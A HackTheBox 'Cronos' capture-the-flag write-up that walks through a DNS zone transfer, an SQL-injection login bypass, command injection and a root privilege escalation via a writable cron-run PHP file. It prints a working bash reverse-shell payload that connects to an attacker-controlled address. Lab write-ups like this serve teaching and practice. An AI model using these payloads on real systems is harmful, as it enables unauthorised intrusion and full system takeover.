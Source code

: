 ```yaml
---
title: "Cronos"
subtitle: "HackTheBox"
author: GoProSlowYo
date: "2021-08-30"
subject: "Cronos Write-Up"
keywords: \[HTB, HackTheBox, InfoSec\]
lang: "en"
titlepage: true
titlepage-text-color: "FFFFFF"
titlepage-color: "0c0d0e"
titlepage-rule-color: "8ac53e"
titlepage-rule-height: 0
logo: "./resources/3ee1b56187ba4b989573d665c8208017.png"
logo-width: 3in
toc: true
toc-own-page: true
---
```


# Cronos

## Summary

This was a pretty straightforward box involving initial enumeration via `DNS zone transfer` to discover additional domains. The box then flows us into following up with `SQL` and `command injection`. Once we've gotten a foothold on the box we werea able to perform `privilege escalation` via the running `cron job`. Read on for the details.

----

## Enumeration

```shell
$ sudo rustscan -b 8192 -u 16384 -a 10.10.10.13 -- -sS -sV -sC -oN 10.10.10.13.$(basename $PWD).nmap.txt
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)            
| ssh-hostkey:
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCkOUbDfxsLPWvII72vC7hU4sfLkKVEqyHRpvPWV2+5s2S4kH0rS25C/R+pyGIKHF9LGWTqTChmTbcRJLZE4cJCCOEoIyoeXUZWMYJCqV8crflHiVG7Zx3wdUJ4yb54G6NlS4CQFwChHEH9xHlqsJhkpkYEnmKc+CvMzCbn6CZn9KayOuHPy5NEqTRIHObjIEhbrz
2ho8+bKP43fJpWFEx0bAzFFGzU0fMEt8Mj5j71JEpSws4GEgMycq4lQMuw8g6Acf4AqvGC5zqpf2VRID0BDi3gdD1vvX2d67QzHJTPA5wgCk/KzoIAovEwGqjIvWnTzXLL8TilZI6/PV8wPHzn
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)            
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKWsTNMJT9n5sJr5U1iP8dcbkBrDMs4yp7RRAvuu10E6FmORRY/qrokZVNagS1SA9mC6eaxkgW6NBgBEggm3kfQ=
|   256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHBIQsAL/XR/HGmUzGZgRJe/1lQvrFWnODXvxQ1Dc+Zx
53/tcp open  domain  syn-ack ttl 63 ISC BIND 9.10.3-P4 (Ubuntu Linux)  
| dns-nsid:                         
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods:                
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
**Rustscan/Nmap Output**

![20210830_195104.png](./resources/03fa34201d7e45ae8f18163a8d4a78c3.png)
**Figure 1:** Rustscan/nmap Output

![20210830_195400.png](./resources/be8079ae31ed4291a33e94b8d7d21f51.png)
**Figure 2:** Rustscan/nmap Output (contd)

From out nmap and rustscan we find ports `22`, `53`, and `80` open.

----

### Port 53

Usually when I see an open DNS port that leads me to think enumeration of subdomains (and OTHER domains) via a zone transfer. Let's ask the DNS server for a dump of it's records:

```shell
$ dig AXFR @10.10.10.13 cronos.htb
; <<>> DiG 9.16.15-Debian <<>> AXFR @10.10.10.13 cronos.htb
; (1 server found)
;; global options: +cmd

cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800                                                                            
;; Query time: 80 msec
;; SERVER: 10.10.10.13#53(10.10.10.13)
;; WHEN: Mon Aug 30 19:44:27 PDT 2021
;; XFR size: 7 records (messages 1, bytes 203
```
**Zone Transfer Attempt**

![20210830_200221.png](./resources/eb2c5e4b046b495cb2ffd35699c29c69.png)
**Figure 3:** Records from DNS Zone Transer Test

This gave us a new domain to start enumerating, `admin.cronos.htb`.

### Port 22

We never ended up using ssh but could have.

### Port 80

Visiting this service without a proper host header results in the default apache "It Works!" page. Based on the name of the box it wasn't a far logical leap to add `cronos.htb` to our `/etc/hosts` file.

![20210830_200011.png](./resources/100aa0d0b523465188eaafabf9f01062.png)
**Figure 4:** Apache - It Works!

From here we found a plain website talking about Laravel with absolutely nothing on it. Let's look around in other places for now.

![20210830_200048.png](./resources/06f454098d0d44e68beea7d9e25f3056.png)
**Figure 5:** Pretty Empty Laravel Webpage.

We can garner some useful information such as the website is probably power by `PHP`, probably `Laravel` specifically, `Apache 2.4.18`, and `Ubuntu`.

We attempted Feroxbuster here to see if we could find any directories but we turned up nothing on our first pass.

----

## Initial Exploitation

Time passes and we come back here after enumerating [Port 53](#port-53) below.

With our new found knowledge of `admin.cronos.htb`. We find an admin login page but we don't have any credentials from our previous reconaissance. Let's try to bypass the login.

![20210830_201245.png](./resources/8a3c2c4f850643d6851dbbd0526e739a.png)
**Figure 6:** Admin Login Portal

The admin page can be bypassed if we try some basic SQL injection: `' OR 1=1-- -`.

![20210830_201356.png](./resources/37b729371d374497a459c500d52aabf1.png)
**Figure 7:** Bypassing the Admin Login Portal

----

## Foothold

We are now inside the admin panel where it looks like we've got command injection. Let's continue.

![20210830_201409.png](./resources/2fef2ad036d5411ea0d6d290da1350f9.png)
**Figure 8:** The Admin Portal

And yes. We've found the most basic of basic command injections:

![20210830_202617.png](./resources/72917d5429394a1da5d710cc84931e23.png)
**Figure 9:** Command Injection in the Admin Portal

... Let's get a shell.

![20210830_202938.png](./resources/9ae598972c404644ac8feaf1747b5202.png)
**Figure 10:** Getting Reverse Shell via the Admin Portal

![20210830_202951.png](./resources/9f599c98518d4574b47ec83a60280b96.png)
**Figure 11:** Catching Reverse Shell in netcat

----

## Privilege Escalation

Enumeration here was quick. We ran with the box name as a hint and looked at cronjobs. We immediately hit paydirt.

```shell
www-data@cronos:/var/www/admin$ cat /etc/cron*
[...snip...]
# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```
**Writable/Vulnerable Cronjob**

We see `/var/www/laravel/artisan` being run every minute of every hour of every day of every week of every month.

We also see this is being run as root and, helpfully, we also own it and it's editable:

```shell
$ ls -l /var/www/laravel/artisan
-rwxr-xr-x  1 www-data www-data    1646 Apr  9  2017 artisan
```
**Writeble Permissions on PHP Script**

Let's drop a reverse shell in and we're done.

```shell
exec('bash -c \'exec /bin/bash -i &>/dev/tcp/10.10.14.2/32000 <&1\'')
```
**PHP Bash Reverse Shell**

![20210830_210931.png](./resources/d67753936b4c404c854f329b6692699a.png)
**Figure 12:** Cronjob PrivEsc to root
